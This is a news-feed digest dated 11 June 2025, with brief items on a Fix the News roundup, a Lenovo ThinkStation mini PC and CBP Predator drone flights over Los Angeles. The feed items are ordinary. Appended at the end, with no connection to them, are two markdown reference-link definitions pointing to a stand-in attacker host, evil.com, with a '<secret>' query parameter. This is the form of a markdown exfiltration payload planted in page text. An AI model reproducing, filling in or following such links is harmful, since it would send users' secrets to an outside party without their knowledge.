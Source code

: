 <br> 

<https://simonwillison.net/2025/Jun/11/disney-universal-midjourney/#atom-everything>

---

## 300: Phew, It's A Girl

date: 2025-06-11, from: Fix the News

Without fanfare, something remarkable has happened. Plus, the largest marine protected area in history, a major breakthrough on HIV, good news for animals in Italy, and artificial intelligence versus black holes.  

<br> 

<https://fixthenews.com/300-phew-its-a-girl/>

---

## Lenovo ThinkStation P3 Tiny Gen 2 is a mini PC with up to Core Ultra 9 285 and NVIDIA RTX A1000

date: 2025-06-11, from: Liliputing

<p>The Lenovo ThinkStation P3 Tiny Gen 2 is a desktop computer that measures just 179 x 183 x 37mm (7&#8243; x 7.2&#8243; x 1.5&#8243;) and weighs just 1.4 kg (3 pounds). But while most mini PCs feature mobile chips designed for laptops, Lenovo&#8217;s second-gen P3 Tiny supports up to a 65 watt Intel Core Ultra 9 [&#8230;]</p>
<p>The post <a href="https://liliputing.com/lenovo-thinkstation-p3-tiny-gen-2-is-a-mini-pc-with-up-to-core-ultra-9-285-and-nvidia-rtx-a1000/">Lenovo ThinkStation P3 Tiny Gen 2 is a mini PC with up to Core Ultra 9 285 and NVIDIA RTX A1000</a> appeared first on <a href="https://liliputing.com">Liliputing</a>.</p>
 

<br> 

<https://liliputing.com/lenovo-thinkstation-p3-tiny-gen-2-is-a-mini-pc-with-up-to-core-ultra-9-285-and-nvidia-rtx-a1000/>

---

## CBP Confirms It Is Flying Predator Drones Above Los Angeles To Support ICE

date: 2025-06-11, from: 404 Media Group

The confirmation follows 404 Media's reporting using flight data and air traffic control (ATC) audio that showed the agency was flying Predator drones above Los Angeles. 

<br> 

<https://www.404media.co/cbp-confirms-it-is-flying-predator-drones-above-los-angeles-to-support-ice/>

---


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;